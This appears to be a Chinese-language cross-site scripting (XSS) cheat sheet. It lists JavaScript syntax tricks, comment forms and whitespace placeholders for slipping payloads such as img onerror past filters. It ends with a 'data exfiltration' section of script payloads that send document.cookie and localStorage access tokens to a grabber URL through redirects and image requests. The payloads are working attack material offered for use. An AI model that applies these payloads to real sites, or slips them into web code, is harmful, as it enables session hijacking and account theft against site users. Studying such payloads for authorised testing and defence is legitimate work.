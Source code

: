 # 基础语法

1. `$("#xx")['html'](一些参数)`  调用 dom 的函数
2. 模板字符串 ``some text``, 可以跨行。模板字符串可以嵌套: `alert(`aaa ${`11`}`)`
3. `//` 是注释，`/aaa/`是正则，`/aa///aaa/` 是正则除正则，`/a/b/c/d`是连续除法，`/**/`代替空格，`//`被 Nginx 解析成文件夹，
4. `alert(a);var a = 'xss';`JS 可以先使用后定义变量
5. 可以通过 `+-*/``instanceof`等运算符号来进行字符串和表达式的连接，来凑格式，只要让 alert(1) 是子表达式就行。
6. `<script><!-- <script></script>  --></script>` 注释里的 script 是可以执行的。
7. `{a:1}` 字典
8. html 注释：

```javascript
多行注释：
<!-- some js --!> 
<!-- some js -->
/* some js */

单行注释：
// some js
-->some js
<!-- some js
/* some js
```

1. 可用于占位的符号

`<img/2233/src[空格、换行、制表符]=[空格、换行、制表符]1/2233/onerror[空格、换行、制表符]=[空格、换行、制表符]"alert/**/(1)"22/33></img[空格、换行、制表符]>`等等

1. 换行绕过一些正则

```python
<input value=1 type=image src onerror
=alert(`1`) type="text">
```



# 基础用法

## 数据外带

```python
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>

<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>

<script>new Image().src='http://localhost/cookie.php?c='+document.cookie;</script>

<script>new Image().src='http://localhost/cookie.php?c='+localStorage.getItem('access_token');</script>
```
